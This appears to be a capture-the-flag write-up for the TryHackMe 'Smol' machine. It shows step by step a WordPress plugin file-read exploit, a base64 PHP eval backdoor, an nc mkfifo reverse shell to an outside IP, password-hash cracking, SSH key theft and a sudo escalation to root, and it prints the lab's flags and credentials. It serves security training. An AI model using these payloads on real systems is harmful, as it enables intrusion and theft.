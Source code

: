 ```yaml
---
title: "TryHackMe - Smol"
date: 2025-02-20 22:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [wordpress, exploits, privilege escalation, reverse shell]

---
```



# SMOL

## 1. Initial Scanning

First, I start with an nmap scan and adding adress to `/etc/hosts`:

```sh
 nmap -T4 -n -sC -SV -Pn -p- IP
 sudo nano /etc/hosts
```

## 2. Using WPScan

I detect that the site is running WordPress, so I run `wpscan`:

```sh
 wpscan --url http://www.smol.thm/
```

I find a vulnerable plugin: **jsmol2wp v1.07**.

## 3. Exploiting the Vulnerable Plugin

After searching for exploits, I find a vulnerability that allows reading the `wp-config.php` file:
https://vulners.com/wpexploit/WPEX-ID:AD01DAD9-12FF-404F-8718-9EBBD67BF611

```sh
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

Database credentials found:

```sh
DB_USER: wpuser
DB_PASSWORD: kbLSF2Vop#lw3rjDZ629*Z%G
```

## 4. Accessing WordPress Admin Panel

Using the retrieved credentials, I log into:

```sh
http://smol.thm/wp-login.php
```

Inside the dashboard, I find **Webmaster Tasks**, specifically:

```
[IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision.
```

Using the previous exploit, I retrieve the source of the **Hello Dolly** plugin:

```sh
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```

I find a backdoor:

```php
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

Decoding in CyberChef reveals:

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```

This allows Remote Code Execution (RCE).

## 5. Obtaining a Reverse Shell

Since the application is vulnerable to RCE via `cmd`, I generate a reverse shell at:

```sh
www.revshells.com
```

I select **nc mkfifo** and obtain:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.21.77 443 >/tmp/f
```

I URL encode this using CyberChef:

```sh
rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f%7Csh%20-i%202%3E&1%7Cnc%2010.8.21.77%20443%20%3E/tmp/f
```

Setting up a listener:

```sh
nc -lvnp 443
```

Triggering the payload:

```sh
http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.8.21.77%20443%20%3E%2Ftmp%2Ff
```

Shell obtained!

I set the `TERM` environment variable to `xterm` to inform the system that I am using an `xterm` terminal:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```



## 6. Database Access & Extracting Hashes

Using the credentials found earlier:

```sh
mysql -u wpuser -p kbLSF2Vop#lw3rjDZ629*Z%G
```

Listing databases:

```sql
SHOW DATABASES;
USE wordpress;
SHOW TABLES;
SELECT * FROM wp_users;
```

Extracted password hashes:

```
admin:$P$BH.CF15fzRj4li7nR19CHzZhPmhKdX.
wpsuer:$P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E.
think:$P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/
gege:$P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1
diego:$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
xavi:$P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1
```

Cracking hashes with `john`:

```sh
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Password for **diego**: `sandiegocalifornia`

Logging in:

```sh
su diego
```

Finding first flag:

```sh
cat user.txt
45edaec653ff9ee06236b7ce72b86963
```

## 7. SSH Private Key Discovery

Searching user directories, I find **think's SSH private key**:

```sh
ls -la /home/think/.ssh
cat /home/think/.ssh/id_rsa
```

Using the key to log in:

```sh
ssh -i id_rsa think@127.0.0.1
```

## 8. Privilege Escalation via PAM Misconfiguration

Checking `/etc/pam.d/su`, I find:

```sh
auth sufficient pam_succeed_if.so use_uid user = think
```

This allows me to switch to **gege** without a password:

```sh
su gege
```

Finding `wordpress.old.zip`, I transfer it:

```sh
python3 -m http.server 8080
wget http://smol.thm:8080/wordpress.old.zip
```

Using `zip2john`:

```sh
zip2john wordpress.old.zip > hashes
john hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

Cracking reveals **xavi’s** database credentials:

```
DB_USER: xavi
DB_PASSWORD: P@ssw0rdxavi@
```

Logging in:

```sh
su xavi
```

## 9. Root Privileges

Checking sudo permissions:

```sh
sudo -l
```

Xavi has full sudo access, so I escalate to `root`:

```sh
sudo su -
```

Final flag found:

```sh
cat root.txt
bf89ea3ea01992353aef1f576214d4e4
```

## Conclusion

This CTF involved multiple vulnerabilities: an outdated WordPress plugin, a backdoor, weak password hashes, and a PAM misconfiguration. Combining these allowed full system compromise.
